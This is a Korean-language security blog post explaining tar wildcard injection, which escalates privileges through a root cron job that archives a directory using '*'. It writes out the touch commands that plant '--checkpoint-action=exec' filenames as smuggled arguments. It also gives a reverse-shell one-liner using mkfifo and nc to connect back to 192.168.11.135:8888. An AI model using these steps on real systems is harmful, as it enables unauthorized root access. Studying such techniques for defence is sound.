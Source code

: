 ```yaml
---
layout: post
title: Wildcard(*) 인젝션에 대하여
subtitle: 와일드카드를 이용한 취약점
category: knowledge
thumbnail-img: /assets/img/knowledge/Studio_Wildcard_logo.png
tags: [knowledge, wildcard]
author: Hong
---
```


와일드카드(*)를 이용한 권한상승 취약점에 대한 설명글.

# 시나리오
cron에 등록된 작업에 와일드카드를 이용한 명령어가 적혀있는 경우를 가정하여 권한상승 공격을 실시.

`cat /etc/crontab`을 했을 경우 아래와 같은 작업이 등록되어 있다고 가정한다.
```
# m h dom mon dow user  command
*/01 *  * * *   root    cd /home/vuln/backuplog && tar -zcf /backup/backuplog.tar.gz *
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
여기서 주목해야 할 부분은 처음에 있는 tar 명령어와 root의 권한으로 실행된다는 점.

tar의 옵션중 --checkpoint-action을 이용하면 지정한 파일을 실행하는 것도 가능하다. 

위의 첫번째 작업을 해석하면, `/home/vuln/backuplog`라는 디렉토리로 이동 후, 그 디렉토리안에 있는 **모든 파일**을 하나로 묶어 `backup`디렉토리에 저장하고 있다.

# 취약점

이 점을 이용하여 디렉토리에 명령어를 파일처럼 만들어두어 tar가 실행하도록 한다.

[tar 체크포인트의 설명](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)

`touch -- '--checkpoint=1'`

`touch -- '--checkpoint-action=exec=sh rev.sh'`

위와 같이 두개의 명령어를 추가하여 리버스쉘을 실행하도록 유도할 수 있다.

`touch --`를 해야 명령어 형식의 파일을 만들 수 있다.
```
ls /home/vuln/backuplog
'--checkpoint-action=exec=sh rev.sh'  
'--checkpoint=1'   
bad.log   
good.log   
rev.sh
```
`backuplog`디렉토리를 보면 방금 만든 명령어 2개와 리버스쉘 파일, 그리고 good,bad라는 로그파일 두개가 있다.

rev.sh라는 실행파일은 리버스쉘을 위해 작성한 실행파일이다.
안에 내용물은 아래와 같다.
```
#! /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|../Desktop/nc 192.168.11.135 8888 >/tmp/f
```

cron잡에 의해 위의 파일은 결국 다음과 같이 실행될 것이다.

`tar -zcf /backup/backuplog.tar.gz --checkpoint=1 --checkpoint-action=exec=sh rev.sh bad.log good.log rev.sh`
# 결과
crontab을 보면 백업 작업이 매분마다 실행되었기 때문에 호스트 머신에서 포트를 리스닝하고 기다리고있으면 cron잡이 실행되어 root로 타겟머신의 쉘이 열리게 된다.

![result](/assets/img/knowledge/revshell.png)
`id`명령어를 실행하면 root로 쉘을 취득한 것을 알 수 있다.